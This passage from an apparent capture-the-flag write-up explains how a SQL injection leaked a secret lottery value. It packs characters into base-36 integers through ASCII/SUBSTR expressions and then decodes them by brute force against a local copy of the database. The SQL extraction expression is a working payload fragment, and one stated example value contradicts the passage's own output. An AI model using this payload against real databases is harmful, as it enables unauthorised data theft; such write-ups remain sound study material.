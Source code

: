 in a human readable language this would look like this

```python
def encode(char):
    byte = ord(char)
    if byte > 0x39:
        return byte-0x37
    else:
        return byte-0x30
encode(lotto[0])
```

If more than one byte needs to be encoded in the same integer the second number needs to be multiplied by 36 and then added to the first number. If a third number must be used, it should be multiplied by 36 twice and then added to the total and so on.

```sql
IF((ASCII(SUBSTR(@lotto,1,1))) > 0x39, (ASCII(SUBSTR(@lotto,1,1))-0x37), (ASCII(SUBSTR(@lotto,1,1))-0x30))+
36*IF((ASCII(SUBSTR(@lotto,2,1))) > 0x39, (ASCII(SUBSTR(@lotto,2,1))-0x37), (ASCII(SUBSTR(@lotto,2,1))-0x30))+
36*36*IF((ASCII(SUBSTR(@lotto,3,1))) > 0x39, (ASCII(SUBSTR(@lotto,3,1))-0x37), (ASCII(SUBSTR(@lotto,3,1))-0x30))+
36*36*36*IF((ASCII(SUBSTR(@lotto,4,1))) > 0x39, (ASCII(SUBSTR(@lotto,4,1))-0x37), (ASCII(SUBSTR(@lotto,4,1))-0x30))
```

So here we can encode 4 of our bytes into a single integer. For example the bytes '1337' would be encoded to 4059072

```python
>>> encode('1') + 36*encode('3') + 36*36*encode('3') + 36*36*36*encode('7')
330589
```

### Decode bytes

Decoding is quite interesting and can definitely be optimized a lot. However, it wasn't! Mainly due to the complexity and the fact that I only needed this to work once. I didn't even consider writing a writeup about this so I never though anyone would actually look at what I did. 

So... I actually did it in a very (lets call it) unelegant way... I made a clone of the database locally and iterated over the possible integer values. As soon as the returned order matched the order I was observing in the response I assume that this was the integer used. This works great for small numbers, up to lets say 2 or even 3 bytes, however when I have to decode 4 bytes this can take a while. In any case, I had some plans to optimise this but those never actually happened since I got the flag before the need came up.

So as, mentioned first the database was cloned

```sql
CREATE TABLE march (`date` VARCHAR(20), `winner` VARCHAR(20));
CREATE TABLE april (`date` VARCHAR(20), `winner` VARCHAR(20));
CREATE TABLE may (`date` VARCHAR(20), `winner` VARCHAR(20));
CREATE TABLE june (`date` VARCHAR(20), `winner` VARCHAR(20));

INSERT INTO march VALUES
('2019-03-01' ,'CA5G8VIB6UC9' ),
('2019-03-05' ,'01VJNN9RHJAC' ),
('2019-03-10' ,'1WSNL48OLSAJ' ),
('2019-03-13' ,'UN683EI26G56' ),
('2019-03-18' ,'YYKCXJKAK3KV' ),
('2019-03-23' ,'00HE2T21U15H' ),
('2019-03-28' ,'D5VBHEDB9YGF' ),
('2019-03-30' ,'I6I8UV5Q64L0' );
 
INSERT INTO april VALUES
('2019-03-01' ,'4KYEC00RC5BZ' ),
('2019-04-02' ,'7AET1KPGKUG4' ),
```